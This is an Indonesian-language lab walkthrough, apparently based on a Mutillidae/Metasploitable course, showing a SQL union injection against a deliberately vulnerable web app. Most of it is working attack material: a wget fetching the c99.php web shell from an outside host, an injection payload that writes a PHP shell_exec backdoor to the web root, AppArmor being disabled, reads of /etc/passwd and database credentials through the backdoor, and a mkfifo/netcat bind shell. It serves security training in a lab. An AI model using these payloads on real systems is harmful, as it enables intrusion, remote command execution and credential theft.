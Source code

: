 ## Lesson 11 - SQL Injection Union Exploit \#4

### \# Mendownload c99.php (PHP SQL Injection)

* **Step 1** : Download file, lakukan command berikut
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrta
```
![](/assets/lesson-11/lesson11_1.JPG)

* **Step 2** : Unrar file dan gabungkan menjadi script, lakukan command berikut
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrta
```
![](/assets/lesson-11/lesson11_2.JPG)




### \# Mendownload c99.php (PHP SQL Injection)

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 

### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Buka halaman php yang sudah kita buat `http://10.151.36.64/mutillidae/execute_command.php`

* **Step 2** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan

* **Step 3** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

Terlihat ada user-user yang potensial untuk diserang seperti user apache, mysql, dll.
Terlihat ada port-port yang biasa digunakan oleh suatu service yang potensial untuk diserang seperti user apache, mysql, dll.

### \# Menggunakan Backdoor untuk pengamatan Database

* **Step 1** : Masukan command linux pada textbox tersebut `ls | grep ".inc`. Hal ini dilakukan untuk mencari file berekstensi `.inc` di directory Mutillidae, yang disasar adalah username dan password database mysql.

Terlihat terdapat file `config.inc`, file ini diduga berisi konfigurasi database mysql.

* **Step 2** : Masukan command linux pada textbox tersebut `cat config.inc | grep -v "<?php"`. Hal ini dilakukan untuk melihat file sebab jika kita tidak gunakan `grep` web tidak akan mencetak nya karena file berisi script php

Terlihat host, username, password, dan nama database dari MySQL yang digunakan web Mutillidae

### \# Menggunakan Backdoor untuk pengamatan Netcat

* **Step 1** : Masukan command linux pada textbox tersebut `which nc; netstat -nao | grep 4444 | wc -l`.
**which nc** : melihat dimana netcat berada
**netstat -nao | grep 4444 | wc -l** : melihat jumlah semua koneksi ke port 4444

* **Step 2** : Masukan command linux pada textbox tersebut `mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`.
**mkfifo** : proses dapat saling berkomunikasi dilakukan melalui pipes. Pipes dapat dibuat dengan mengunakan perintah ini
**nc -l 4444** : meminta netcat untuk listen & allow connections di port 4444

Terlihat koneksi terus berputar hal ini manandakan port 444 sedang listen atau menunggu adanya koneksi/transfer data

* **Step 3** : Sebari langkah 2 berjalan, masukan command linux pada terminal Kali Linux `nc 10.151.36.64 4444`. Kemudian masukan command cli yang anda inginkan.












